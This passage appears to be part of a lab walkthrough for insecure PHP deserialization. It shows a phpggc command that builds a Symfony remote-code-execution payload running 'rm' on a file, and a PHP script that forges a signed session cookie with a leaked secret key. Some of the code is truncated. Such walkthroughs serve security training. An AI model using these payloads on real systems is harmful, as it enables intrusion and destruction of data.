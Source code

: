 ![Insecure deserialization](../img/indes_18.png)

**5.** Create your payload with:

```
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0 > test.txt
```

![Insecure deserialization](../img/indes_20.png)

**6.** Construct a valid cookie containing this malicious object and sign it correctly using the secret key. Using this template:

```php
<?php 
$object = "OBJECT-GENERATED-BY-PHPGGC"; 
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP"; 
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}'); 
echo $cookie;
```

Generate a file lab.php customizing the script. Use the $secretKey obtained in step 3. Use the payload generated in step 5 for the $object.

```php
?php
$object = "Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRh>
$secretKey = "cvb2w284adozzw3m2wgbhmxn7ezi9s4v";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```
